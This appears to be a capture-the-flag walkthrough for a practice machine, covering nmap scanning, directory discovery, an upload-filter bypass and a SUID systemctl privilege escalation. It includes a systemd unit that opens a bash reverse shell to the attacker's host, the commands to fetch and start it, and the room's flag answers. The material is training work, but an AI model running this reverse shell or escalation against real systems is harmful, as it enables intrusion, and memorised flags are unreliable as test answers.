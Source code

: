# Reconnaissance

### Scan the box, how many ports are open?
```
┌──(root💀kali)-[~]
└─# nmap -Pn <machine ip>
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
...
```
> *Answer:* 6

### What version of the squid proxy is running on the machine?
```
┌──(root💀kali)-[~]
└─# nmap -sV <machine ip>
...
3128/tcp open  http-proxy  Squid http proxy 3.5.12
...
```
> *Answer:* 3.5.12

### How many ports will nmap scan if the flag -p-400 was used?
> *Answer:* 400

### Using the nmap flag -n what will it not resolve?
> *Answer:* DNS

### What is the most likely operating system this machine is running?
```
┌──(root💀kali)-[~]
└─# nmap -sV -O <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* Ubuntu

### What port is the web server running on?
```
┌──(root💀kali)-[~]
└─# nmap -sV <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* 3333


<br><br>
# Locating directories

### What is the directory that has an upload form page?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "http://<machine ip>:3333/"
...
[14:17:17] 301 -  320B  - /internal  ->  http://10.10.117.6:3333/internal/
...
```
> *Answer:* /internal/


<br><br>
# Compromise the webserver

### Try upload a few file types to the server, what common extension seems to be blocked?
> *Answer:* .php

### Run this attack, what extension is allowed?
> *Answer:* .phtml

### What is the name of the user who manages the webserver?
```
machine:~$ cat /etc/passwd
...
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```
> *Answer:* bill

### What is the user flag?
```
machine:~$ ls -la /home/bill
...
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
machine:~$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
> *Answer:* 8bd7992fbe8a6ad22a63361004cfcedb


<br><br>
# Privilege Escalation

### On the system, search for all SUID files. What file stands out?
```
machine:~$ find / -perm -u=s -type f | grep -v "Permission denied"
...
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
> *Answer:* /bin/systemctl

### Become root and get the last flag (/root/root.txt)
Create a file called *root.service* inside kali apache2 server
```
┌──(root💀kali)-[~]
└─# cat > /var/www/html/root.service
[Unit]
Description=PrivEsc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<kali ip>/8888 0>&1'

[Install]
wantedBy=multi-user.target ^D
```

Put file *root.service* to machine, then create symlink and start service.
```
machine:~$ cd /tmp
machine:~/tmp$ wget <kali ip>/root.service
...
2021-09-19 04:09:25 (32.9 MB/s) - 'root.service' saved [175/175]
machine:~$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
machine:~$ /bin/systemctl start root.service
```

Listen to incoming connections using netcat
```
┌──(root💀kali)-[~]
└─# nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.117.6] 57870
bash: cannot set terminal process group (2040): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# 
```
<img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">

```
root@vulnuniversity:/# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
> *Answer:* a58ff8579f0a9270368d33a9966c7fd5

